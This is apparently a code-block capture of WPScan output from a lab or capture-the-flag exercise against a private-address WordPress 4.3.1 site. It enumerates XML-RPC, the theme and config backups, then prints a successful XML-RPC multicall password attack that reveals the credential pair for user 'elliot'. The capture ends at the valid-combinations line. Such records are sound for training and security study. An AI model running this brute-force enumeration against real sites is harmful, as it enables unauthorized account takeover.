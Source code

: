 ```
[+] XML-RPC seems to be enabled: http://10.10.245.102/xmlrpc.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
| References:
|  - http://codex.wordpress.org/XML-RPC_Pingback_API
|  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
|  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
|  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
|  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] The external WP-Cron seems to be enabled: http://10.10.245.102/wp-cron.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 60%
| References:
|  - https://www.iplocation.net/defend-wordpress-from-ddos
|  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.3.1 identified (Insecure, released on 2015-09-15).
| Found By: Emoji Settings (Passive Detection)
|  - http://10.10.245.102/4f61287.html, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.3.1'
| Confirmed By: Meta Generator (Passive Detection)
|  - http://10.10.245.102/4f61287.html, Match: 'WordPress 4.3.1'

[+] WordPress theme in use: twentyfifteen
| Location: http://10.10.245.102/wp-admin/themes/twentyfifteen/
| Last Updated: 2021-07-22T00:00:00.000Z
| [!] The version is out of date, the latest version is 3.0
| Style URL: http://10.10.245.102/wp-content/themes/twentyfifteen/style.css?ver=4.3.1
| Style Name: Twenty Fifteen
| Style URI: https://wordpress.org/themes/twentyfifteen/
| Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
| Author: the WordPress team
| Author URI: https://wordpress.org/
|
| Found By: Css Style In 404 Page (Passive Detection)
|
| Version: 1.3 (80% confidence)
| Found By: Style (Passive Detection)
|  - http://10.10.245.102/wp-content/themes/twentyfifteen/style.css?ver=4.3.1, Match: 'Version: 1.3'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
Checking Config Backups - Time: 00:00:06 <=============================================================================================================================================================> (137 / 137) 100.00% Time: 00:00:06

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc Multicall against 1 user/s
[SUCCESS] - elliot / ER28-0652                                                                                                                   
All Found                                                                                                                                                                   
Progress Time: 00:02:02 <================================================================================================                                                                                  > (12 / 22) 54.54%  ETA: ??:??:??

[!] Valid Combinations Found:
```